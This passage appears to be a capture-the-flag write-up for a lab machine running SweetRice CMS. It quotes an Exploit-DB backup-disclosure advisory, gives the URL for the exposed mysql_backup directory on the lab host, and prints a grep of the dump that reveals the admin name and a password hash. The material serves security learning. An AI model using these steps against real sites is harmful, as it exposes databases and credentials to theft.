 Files? Let's take a look at these. 

![kekw2](https://i.imgur.com/m7nrOE0.png)

php files that we are able to open... Awesome! This might be helpful later, let's look past that for now.

The problem at hand is that there is a login page we need to get past. Let's google the name of the CMS ``SweetRice``. It looks like it is extremely vulnerable and has several issues.

One of the exploits I found from Google is this: https://www.exploit-db.com/exploits/40718

## Exploiting SweetRice

```
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```


Looks like we can grab the ``mysql_backup`` file from the web server. The CMS is hosted at ``/content/``, so let's add the file to the url we have. 

```
http://10.10.16.134/content/inc/mysql_backup/
```

![sqluwu](https://i.imgur.com/LaQ9bjG.png)

Perfect, let's download this to our machine and take a look at it: 

![ohlawd](https://i.imgur.com/E9Zwg35.png)

That's a lot of stuff to look through.. Let's look for an important word, like ``admin``. 

```
kali@kali:~/Desktop/thm/lazyadmin$ cat mysql_bakup_20191129023059-1.5.1.sql | grep admin
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
